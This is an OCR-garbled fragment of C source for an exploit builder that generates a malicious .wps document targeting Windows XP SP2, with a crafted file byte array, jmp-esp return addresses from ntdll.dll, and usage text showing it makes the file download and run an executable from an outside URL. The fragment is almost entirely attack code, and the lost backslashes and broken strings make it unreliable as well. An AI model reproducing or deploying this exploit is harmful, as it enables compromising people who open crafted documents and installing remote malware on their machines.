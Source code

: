 "x1dx00x00x00x1ex00x00x00x1fx00x00x00x20x00x00x00"
"x21x00x00x00x22x00x00x00x23x00x00x00x24x00x00x00"
"x25x00x00x00x26x00x00x00x27x00x00x00xfexffxffxff"
"x29x00x00x00xfexffxffxffxfexffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"x43x48x4ex4bx57x4bx53x20x04x00x08x00x0ex00x00x03"
"x00x02x00x00x00x0ax00x00xf8x01x0ex00xffxffxffxff"
"x18x00x54x45x58x54x00x00x2fx00x00x00x00x00x00x00"
"x00x00x00x00x00x00x00x00x00x00x00x00x00x00";

char szIntro[] =
"[+] Targets:
"
" (1) Windows XP SP2 ntdll.dll DE jmpesp
"
" (2) Windows XP SP2 ntdll.dll CN&TW jmpesp
"
"Usage: wps.exe <target> <file> <URL>
"
".Ex:wps.exe 2 test.wps http://www.0x520.cn/test.exe
";

struct {
 const char *szTarget;
 unsigned char uszRet[5];
}targets[] = {
 {"Windows XP SP2 DE ntdll.dll jmpesp", "xEDx1Ex94x7C"},/* jmp esp */
 {"Windows XP SP2 CN&TW ntdll.dll jmpesp","xEDx1Ex96x7C"},
};
// Shellcode string
unsigned char sc[1024] = {0};
